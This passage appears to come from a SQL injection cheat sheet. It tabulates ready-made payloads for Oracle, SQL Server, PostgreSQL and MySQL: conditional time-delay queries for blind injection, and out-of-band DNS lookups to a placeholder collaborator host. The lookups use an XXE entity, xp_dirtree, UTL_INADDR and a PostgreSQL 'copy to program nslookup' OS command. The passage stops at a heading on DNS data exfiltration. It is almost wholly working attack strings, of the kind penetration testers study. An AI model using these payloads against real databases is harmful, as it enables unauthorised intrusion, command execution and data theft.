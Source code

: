 ## Conditional Time Delays

| Database   | Query Statement                                                                                                  |
| ---------- | ---------------------------------------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`                                                                |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`                                  |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a') `                                                                  |

## DNS Lookup

| Database   | Query Statement                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br />`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br />The following technique works on fully patched Oracle installations, but requires elevated privileges:<br />`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| MySQL      | The following techniques work on Windows only:<br />`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`<br />Or<br />`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`                                                                                                                                                                                                                                                                                                                                             |

## DNS Lookup With Data Exfiltration
